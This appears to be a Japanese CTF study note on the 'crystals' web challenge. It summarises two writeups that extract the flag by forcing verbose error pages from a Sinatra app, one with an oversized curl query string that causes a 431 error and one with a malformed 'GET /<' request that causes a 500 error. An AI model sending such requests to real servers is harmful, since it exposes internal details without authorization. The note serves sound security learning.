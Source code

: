 # crystals

## シナリオ

- SinatraというRubyのWebフレームワークを使用している
- いろいろエラーを出力させようとするとflagが出力される可能性がある

## Writeup

### はまやんはまやんニキ

作戦: **詳細なエラーページを出力させるために431エラー(Request Header Fileds Too Large)を引き起こす**

```bash
curl http://<hostname>/?$(python3 -c "print('A'*4000)")
```

を実行することで431エラーを起こしてflagを取得する

### 脆弱エンジニアの一員ニキ

作戦: **500番台のエラーを起こしてサーバの詳細を取得する**

```
GET /< HTTP/1.1
Host: <hostname>
```

でリクエストしたらエラーがでてflag出力

## メモ

Writeupを出してる人のやり方が様々であったが、どの方々も使っているフレームワークを見てそのドキュメントや情報を探っていた。今回でいうとSinatra。エラーを引き起こして詳細を出力させるという方法はどのフレームワークでも可能性がありそう。

## 参考

- https://blog.hamayanhamayan.com/entry/2024/07/22/145709#web-crystals
- https://zenn.dev/tchen/articles/aa14ad449cb991#%E2%9C%85crystal-(100pts-%E3%82%AF%E3%83%AA%E3%82%A2%E7%8E%8710%25)